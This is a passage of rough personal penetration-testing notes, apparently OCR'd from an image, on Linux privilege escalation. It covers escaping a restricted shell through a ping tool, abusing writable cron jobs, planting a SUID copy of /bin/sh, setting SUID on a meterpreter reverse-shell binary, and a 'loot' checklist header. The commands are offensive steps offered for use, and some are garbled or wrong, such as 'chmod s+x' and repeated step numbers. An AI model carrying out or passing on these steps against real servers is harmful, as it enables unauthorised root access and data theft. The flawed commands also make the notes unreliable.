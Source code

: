 5.	echo the bin/bash shell into the ping tool and execute the ping tool

6.	basically you are appending the bin/bash to ping tool and executing

7.	cd /home

8.	now we are bash

#### try to root the server tricks

https://www.youtube.com/watch?v=SoUrcesP9ek

1.	we have to set the path for bash first

2.	export PATH=*dollar-sign*PATH:/usr/bin/

2.	no we need to search cron job, to see if anything I found is vulnerable

3.	cd /etc/cron.minutely/

4.	ls

5.	check all running cron jobs

6.	ls -ls file

7.	you need to write if not try other things

8.	cat file

9.	see if file is running other files

10.	check permissions on other files

10.	hopefully they are running as 777

11.	appended things to other files

12.	nano file

13.	do things like cp /bin/sh /home/restricted1/unkownendevice64 && chmod 4755

14.	give you root privs to run this shell


### Setting the SUID sticky bit

chmod 4755 lin86-reverse-met-603.elf

chmod s+x lin86-reverse-met-603.elf

chmod 4777 lin86-reverse-met-603.elf
------------------------------------------------------------------------

----------------------------- LOOT LOOT LOOT LOOT ----------------------

------------------------------------------------------------------------


## Loot

**Checklist**
